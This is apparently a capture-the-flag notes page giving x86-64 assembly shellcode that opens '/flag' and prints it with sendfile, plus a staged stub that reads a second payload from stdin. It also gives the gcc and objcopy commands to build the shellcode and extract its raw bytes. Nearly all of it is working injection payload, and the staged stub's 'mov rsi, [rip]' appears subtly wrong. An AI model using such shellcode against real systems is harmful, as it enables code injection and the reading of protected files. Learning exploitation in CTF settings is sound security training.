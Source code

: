 Shellcode to read a flag file:
```assembly
.globl _start
_start:
.intel_syntax noprefix
	mov rbx, 0x00000067616c662f # push "/flag" filename
	push rbx
	
	mov rax, 2    # syscall number of open
	mov rdi, rsp  # point to /flag
	mov rsi, 0    # NULL out the second argument (meaning, O_RDONLY)
	syscall       # open("/flag", NULL)
	
	mov rdi, 1    # stdout
	mov rsi, rax  # file descriptor of open
	mov rdx, 0    # offset
	mov r10, 1000 # number of bytes to read
	mov rax, 40   # syscall number of sendfile
	syscall       # sendfile(1, fd, 0, 1000)

    mov rax, 60   # syscall number of exit
    syscall       # exit()
```

Staged shellcode (amd64 syntax):
```assembly
.globl _start
_start:
.intel_syntax noprefix
	mov rax, 0      # sycall number of read
	mov rdi, 0      # stdin
	mov rsi, [rip]  # instruction pointer
	mov rdx, 1000   # 1000 bytes
	syscall         # read(0, rip, 1000)
```

Then assemble and dump the raw bytes (works for x86, x64, and amd64):
```sh
gcc -nostdlib -static shellcode.s -o shellcode-elf

objcopy --dump-section .text=shellcode-raw shellcode-elf
```

To test run the shellcode:
```shell
gcc -nostdlib -static shellcode.s -o shellcode-elf  
./shellcode-elf
```

To view the shellcode:
```shell
objdump -M intel -d shellcode-elf
```

Sometimes when there are great constraints against your injection, you can use staged shellcode.
